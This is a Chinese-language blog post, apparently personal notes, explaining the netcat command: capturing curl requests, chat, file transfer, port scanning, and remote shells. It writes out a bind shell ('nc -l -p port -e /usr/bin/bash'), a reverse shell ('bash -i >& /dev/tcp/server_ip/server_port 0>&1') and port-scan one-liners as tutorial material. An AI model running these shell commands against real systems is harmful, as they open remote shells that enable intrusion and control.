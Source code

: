 ```yaml
---
layout: post
title:  "命令 nc"
date:   2022-03-26 00:00:00 +0800
categories: Command
tags: [Linux, nc, netcat]
---
```


## 捕获 HTTP 请求的内容
1. 监听端口，用于捕获数据。
```shell
nc -l port 
```

2. 发送 HTTP 请求。
```shell
curl http://ip:port/
```

### GET 请求
```shell
curl http://127.0.0.1:8000/
```

```
GET /?name=wjj HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: curl/7.61.1
Accept: */*
```

### POST JSON 请求
```shell
curl --location --request POST 'http://127.0.0.1:8000/users_by_json' \
--header 'Content-Type: application/json' \
--data-raw '{
    "name": "wjj",
    "age": 40
}'
```

```
POST /users_by_json HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: curl/7.61.1
Accept: */*
Content-Type: application/json
Content-Length: 36

{
    "name": "wjj",
    "age": 40
}
```

### POST File 请求
```shell
curl --location --request POST 'http://127.0.0.1:8000/uploadfile' --form 'file=@"/test/test.jpg"'
```

```
POST /uploadfile HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 1604
Content-Type: multipart/form-data; boundary=------------------------f512f8a3c3a9b436
Expect: 100-continue

--------------------------f512f8a3c3a9b436
Content-Disposition: form-data; name="file"; filename="test.jpg"
Content-Type: image/jpeg

????JFIFHH??XExifMM?i&?? ? ??8Photoshop 3.08BIM8BIM%??ُ??	???B~?  "??
???w!1AQaq"2B????	#3R?br?
$4?%?&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz??????????????????????????????????????????????????????C
               ^????P????O????n?g??yH?ʑ0!??`??'??`{??=?	??O?N??\鳤????:???_u?.??|?;??߈2x?XO?y।M?? ?ŉ?
???d/i?+?Z]J?]2?Q2?:??ܨe?P??\?%?O?ʜ?N??=?????2?.?T?X?߽?k?w?????
--------------------------f512f8a3c3a9b436--
```

## 发送消息
* 服务器端
```shell
nc -l -p port 
```

* 客户端
```shell
nc server_ip server_port
```

现在在服务器端和客户端相当于是一个聊天软件，在任意一端发送消息，对方都会收到。

## 文件传输
### 客户端传输文件到服务器端
* 服务器端
```shell
nc -l -p port > output_file
```
文本或二进制都可以。

* 客户端
```shell
nc server_ip server_port < input_file
```

### 服务器端传输文件到客户端
* 服务器端
```shell
nc -l -p port < input_file
```

* 客户端
```shell
nc server_ip server_port > output_file
```

## 端口扫描
### 扫描目标服务器的端口
#### 一个端口
```shell
nc -n -z -w1 server_ip server_port
```

#### 端口范围
```shell
nc -n -z -w1 server_ip server_start_port-server_end_port
```
CentOS8上不能使用端口范围

### 扫描本机所有正在使用的端口
```shell
nc -n -z -w1 127.0.0.1 1-65535
```
```
Connection to 127.0.0.1 port 22 [tcp/*] succeeded!
Connection to 127.0.0.1 port 4000 [tcp/*] succeeded!
......
```

## 远程执行程序
### 客户端远程执行服务器端的程序
* 服务器端
```shell
nc -l -p port -e /usr/bin/bash
```

* 客户端
```shell
nc server_ip server_port
```
```shell
#显示服务器端的文件列表
ls
output.txt
test.jpg
#退出连接（服务器端程序也会退出）
exit
```

### 服务器端远程执行客户端的程序
* 服务器端
```shell
nc -l -p port
```

* 客户端
```shell
nc server_ip server_port -e /usr/bin/bash
```

* 服务器端
```shell
#显示客户端的文件列表
ls
input.txt
test.jpg
#退出连接（客户端程序也会退出）
exit
```

## 反弹 Shell
* 服务器端
```shell
nc -lvp 8000
```

* 客户端
```shell
bash -i >& /dev/tcp/server_ip/server_port 0>&1
```

* 重定向符：>&
* 文件描述符：
    * 0 标准输入
    * 1 标准输出
    * 2 错误输出

* 服务器端

提示符和客户端一样，现在在服务器端操作就和在客户端操作是一样的。

## 参数
* -v 输出详细错误信息
* -n 不对目标机器进行DNS解析
* -z 只扫描监听守护进程，而不向它们发送任何数据。
* -w timeout 超时设置，单位（秒）

## 参考资料
* [Using netcat to catch request data from cUrl](https://blog.niklasottosson.com/mac/using-netcat-to-catch-request-data-from-curl/)
* [How to display request headers with command line curl](https://stackoverflow.com/questions/3252851/how-to-display-request-headers-with-command-line-curl)
* [How to send a header using a HTTP request through a cURL call?](https://stackoverflow.com/questions/356705/how-to-send-a-header-using-a-http-request-through-a-curl-call)
* [How to send http data with header and body ia curl](https://stackoverflow.com/questions/51365205/how-to-send-http-data-with-header-and-body-ia-curl)
